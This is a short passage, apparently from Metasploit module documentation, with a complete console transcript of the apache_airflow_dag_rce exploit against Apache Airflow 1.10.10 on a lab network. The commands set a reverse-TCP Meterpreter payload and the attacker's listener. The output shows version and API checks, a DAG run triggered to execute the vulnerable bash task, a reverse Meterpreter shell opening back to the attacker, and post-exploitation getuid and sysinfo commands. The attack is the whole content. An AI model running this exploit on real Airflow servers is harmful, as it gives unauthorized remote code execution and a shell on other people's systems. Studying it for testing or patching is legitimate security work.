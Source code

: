 * Sometimes, the first Meterpreter session fails, but the second one opens successfully.

```rb
msf6 > use exploit/multi/http/apache_airflow_dag_rce
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf6 exploit(multi/http/apache_airflow_dag_rce) > set RHOSTS 192.168.245.139
RHOSTS => 192.168.245.139
msf6 exploit(multi/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.245.139:8080/admin/airflow/login
[+] Target is running Apache Airflow.
[*] Checking Apache Airflow version...
[+] Target is running Apache Airflow Version 1.10.10.
[+] The target appears to be vulnerable. However, extra checks are still required to make sure the example DAGs are loaded, running, and executable.
[*] Checking if Airflow Experimental REST API is accessible at: http://192.168.245.139:8080/api/experimental/test
[+] Airflow Experimental REST API is accessible.
[*] Checking for vulnerability of 'example_trigger_target_dag.bash_task'...
[+] The 'example_trigger_target_dag.bash_task' is vulnerable.
[*] Checking if 'example_trigger_target_dag.bash_task' is enabled...
[+] The 'example_trigger_target_dag.bash_task' is enabled.
[*] Creating new DAG...
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-08-10 04:51:19+00:00: manual__2023-08-10T04:51:19+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the DAG. This might take a while...
[!] If the Bash task is never queued, then the Scheduler might not be running.
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[*] Bash task is queued...
[*] Bash task is queued...
[+] Bash task is running. Expect a session if executed successfully.
[-] Meterpreter session 1 is not valid and will be closed
[*] 192.168.245.139 - Meterpreter session 1 closed.
[*] Meterpreter session 2 opened (192.168.245.128:4444 -> 192.168.245.139:44236) at 2023-08-10 11:22:39 +0630

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : 94b1e820e392
OS              : Linux 4.19.0-25-amd64 #1 SMP Debian 4.19.289-1 (2023-07-24)
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter >
```
